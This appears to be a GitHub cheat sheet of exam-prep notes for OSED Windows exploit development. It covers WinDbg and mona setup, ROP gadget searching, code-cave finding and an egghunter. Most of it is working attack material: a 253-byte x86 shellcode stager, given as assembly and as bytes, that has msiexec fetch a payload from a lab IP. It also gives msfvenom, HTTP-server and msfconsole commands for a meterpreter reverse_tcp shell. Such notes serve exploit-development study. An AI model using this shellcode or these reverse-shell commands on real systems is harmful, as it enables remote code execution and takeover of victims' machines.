










# OSED
## Narly
* Put narly.dll in C:\Program Files\Windows Kits\10\Debuggers\x86\winext\


## WinDBG GUI
* Load Workspace from File



## ROP++
* Run rp-win.exe
```
rp-win.exe --file narly.dll -r 5 --bad-bytes 00,01 > rop.txt
```


## Mona
1. Install python-2.7.17.msi
2. Install vcredist_x86.exe
3. Put pykd.pyd in C:\Program Files\Windows Kits\10\Debuggers\x86\winext\
4. Put windbglib.py in C:\Program Files\Windows Kits\10\Debuggers\x86\
5. Put mona.py in C:\Program Files\Windows Kits\10\Debuggers\x86\
6. Open cmd.exe with Administrator Privilege
```
cd "C:\Program Files\Common Files\Microsoft Shared\VC\"
regsvr32 /s msdia90.dll
```
7. Set Folder Permission


8. Start Mona
```
.load pykd.pyd
!py mona
!py mona.py rop -m *.dll -cp nonull
!py mona.py rop -m *.dll -cp -cpb '\x00\x3b'
```


## filter-ropfile.py
Can used for refrence, but the ROP-q1 and ROP-q2 are not full list
```
python3 filter-ropfile.py rop.txt                                              
```




## Code-caver.py
Can used for finding code cave (a RX location of bunch of 0s)
From noptech Github repository (https://raw.githubusercontent.com/nop-tech/code_caver/main/code_caver.py)
```
0:000> !py code_caver.py 55100000 55107000 
Code Caver
[*] Scanning for code caves in the address range 0x55100000 to 0x55107000

[!] Code cave found at address 55102d3a with a size of 704 bytes

[*] DONE
```



## Egghunter.py
Can used for crafting egghunter shellcode
From epi052 Github repository (https://raw.githubusercontent.com/epi052/osed-scripts/main/egghunter.py)
```
└─$ python3 egghunter.py -t GFHKGFHK -b \x00\x09\x0A
[+] Egghunter assembly code + coresponding bytes
        or dx, 0x0fff           0x66 0x81 0xca 0xff 0x0f 
    loop_inc_one:               
        inc edx                 0x42 
    loop_check:                 
        push edx                0x52 
        xor eax, eax            0x31 0xc0 
        add ax, 0x01c6          0x66 0x05 0xc6 0x01 
        int 0x2e                0xcd 0x2e 
        cmp al, 05              0x3c 0x05 
        pop edx                 0x5a 
    loop_check_valid:           
        je loop_inc_page        0x74 0xec 
    is_egg:                     
        mov eax, 0x33643063     0xb8 0x63 0x30 0x64 0x33 
        mov edi, edx            0x89 0xd7 
        scasd                   0xaf 
        jnz loop_inc_one        0x75 0xe7 
    first_half_found:           
        scasd                   0xaf 
        jnz loop_inc_one        0x75 0xe4 
    matched_both_halves:        
        jmp edi                 0xff 0xe7 
                                
[+] egghunter created!
[=]   len: 35 bytes
[=]   tag: c0d3c0d3
[=]   ver: NtAccessCheckAndAuditAlarm

egghunter = b"\x66\x81\xca\xff\x0f\x42\x52\x31\xc0\x66\x05\xc6\x01\xcd\x2e\x3c\x05\x5a\x74\xec\xb8\x63\x30\x64\x33\x89\xd7\xaf\x75\xe7\xaf\x75\xe4\xff\xe7"
                                  
```



## shellcoder.py 
Used for creating MSF payload. Very useful to create small payload
From epi052 Github repository (https://raw.githubusercontent.com/epi052/osed-scripts/main/shellcoder.py)
```
python3 shellcoder.py --msi -l 192.168.56.142 -p 443 -s
   start:                               
            
       mov ebp, esp                    ;
       add esp, 0xfffff9f0             ;
   find_kernel32:                       
       xor ecx,ecx                     ;
       mov esi,fs:[ecx+30h]            ;
       mov esi,[esi+0Ch]               ;
       mov esi,[esi+1Ch]               ;
   next_module:                         
       mov ebx, [esi+8h]               ;
       mov edi, [esi+20h]              ;
       mov esi, [esi]                  ;
       cmp [edi+12*2], cx              ;
       jne next_module                 ;
   find_function_shorten:               
       jmp find_function_shorten_bnc   ;
   find_function_ret:                   
       pop esi                         ;
       mov [ebp+0x04], esi             ;
       jmp resolve_symbols_kernel32    ;
   find_function_shorten_bnc:           
       call find_function_ret          ;
   find_function:                       
       pushad                          ;
       mov eax, [ebx+0x3c]             ;
       mov edi, [ebx+eax+0x78]         ;
       add edi, ebx                    ;
       mov ecx, [edi+0x18]             ;
       mov eax, [edi+0x20]             ;
       add eax, ebx                    ;
       mov [ebp-4], eax                ;
   find_function_loop:                  
       jecxz find_function_finished    ;
       dec ecx                         ;
       mov eax, [ebp-4]                ;
       mov esi, [eax+ecx*4]            ;
       add esi, ebx                    ;
   compute_hash:                        
       xor eax, eax                    ;
       cdq                             ;
       cld                             ;
   compute_hash_again:                  
       lodsb                           ;
       test al, al                     ;
       jz compute_hash_finished        ;
       ror edx, 0x0d                   ;
       add edx, eax                    ;
       jmp compute_hash_again          ;
   compute_hash_finished:               
   find_function_compare:               
       cmp edx, [esp+0x24]             ;
       jnz find_function_loop          ;
       mov edx, [edi+0x24]             ;
       add edx, ebx                    ;
       mov cx, [edx+2*ecx]             ;
       mov edx, [edi+0x1c]             ;
       add edx, ebx                    ;
       mov eax, [edx+4*ecx]            ;
       add eax, ebx                    ;
       mov [esp+0x1c], eax             ;
   find_function_finished:              
       popad                           ;
       ret                             ;
   resolve_symbols_kernel32:            
push 0x78b5b983
       call dword ptr [ebp+0x04]       ;
       mov [ebp+0x10], eax             ;
push 0xec0e4e8e
       call dword ptr [ebp+0x04]       ;
       mov [ebp+0x14], eax             ;
   load_msvcrt:                         
       xor eax, eax                    ;
       push eax                        ;
mov ax, 0x6c6c;push eax;push dword 0x642e7472;push dword 0x6376736d;
       push esp                        ;
       call dword ptr [ebp+0x14]       ;
   resolve_symbols_msvcrt:              
       mov ebx, eax                    ;
push 0x692fada7
       call dword ptr [ebp+0x04]       ;
       mov [ebp+0x18], eax             ;
   call_system:                         
       xor eax, eax                    ;
       push eax                        ;
push dword 0x20206e71;push dword 0x2f20582f;push dword 0x3334343a;push dword 0x3234312e;push dword 0x36352e38;push dword 0x36312e32;push dword 0x39312f2f;push dword 0x3a707474;push dword 0x6820692f;push dword 0x20636578;push dword 0x6569736d;
       push esp                        ;
       call dword ptr [ebp+0x18]       ;
   exec_shellcode:                      
       xor ecx, ecx                    ;
       push ecx                        ;
       push 0xffffffff                 ;
       call dword ptr [ebp+0x10]       ;
[+] shellcode created!
[=]   len:   253 bytes
[=]   lhost: 192.168.56.142
[=]   lport: 443
[=]   break: breakpoint disabled
[=]   ver:   MSI stager
[=]   Shellcode stored in: shellcode.bin
[=]   help:
         Create msi payload:
                 msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.56.142 LPORT=443 -f msi -o X
         Start http server (hosting the msi file):
                 sudo python -m SimpleHTTPServer 443 
         Start the metasploit listener:
                 sudo msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/meterpreter/reverse_tcp; set LHOST 192.168.56.142; set LPORT 443; exploit"
         Remove bad chars with msfvenom (use --store-shellcode flag): 
                 cat shellcode.bin | msfvenom --platform windows -a x86 -e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d" -f python -v shellcode

shellcode = b"\x89\xe5\x81\xc4\xf0\xf9\xff\xff\x31\xc9\x64\x8b\x71\x30\x8b\x76\x0c\x8b\x76\x1c\x8b\x5e\x08\x8b\x7e\x20\x8b\x36\x66\x39\x4f\x18\x75\xf2\xeb\x06\x5e\x89\x75\x04\xeb\x54\xe8\xf5\xff\xff\xff\x60\x8b\x43\x3c\x8b\x7c\x03\x78\x01\xdf\x8b\x4f\x18\x8b\x47\x20\x01\xd8\x89\x45\xfc\xe3\x36\x49\x8b\x45\xfc\x8b\x34\x88\x01\xde\x31\xc0\x99\xfc\xac\x84\xc0\x74\x07\xc1\xca\x0d\x01\xc2\xeb\xf4\x3b\x54\x24\x24\x75\xdf\x8b\x57\x24\x01\xda\x66\x8b\x0c\x4a\x8b\x57\x1c\x01\xda\x8b\x04\x8a\x01\xd8\x89\x44\x24\x1c\x61\xc3\x68\x83\xb9\xb5\x78\xff\x55\x04\x89\x45\x10\x68\x8e\x4e\x0e\xec\xff\x55\x04\x89\x45\x14\x31\xc0\x50\x66\xb8\x6c\x6c\x50\x68\x72\x74\x2e\x64\x68\x6d\x73\x76\x63\x54\xff\x55\x14\x89\xc3\x68\xa7\xad\x2f\x69\xff\x55\x04\x89\x45\x18\x31\xc0\x50\x68\x71\x6e\x20\x20\x68\x2f\x58\x20\x2f\x68\x3a\x34\x34\x33\x68\x2e\x31\x34\x32\x68\x38\x2e\x35\x36\x68\x32\x2e\x31\x36\x68\x2f\x2f\x31\x39\x68\x74\x74\x70\x3a\x68\x2f\x69\x20\x68\x68\x78\x65\x63\x20\x68\x6d\x73\x69\x65\x54\xff\x55\x18\x31\xc9\x51\x6a\xff\xff\x55\x10"
```
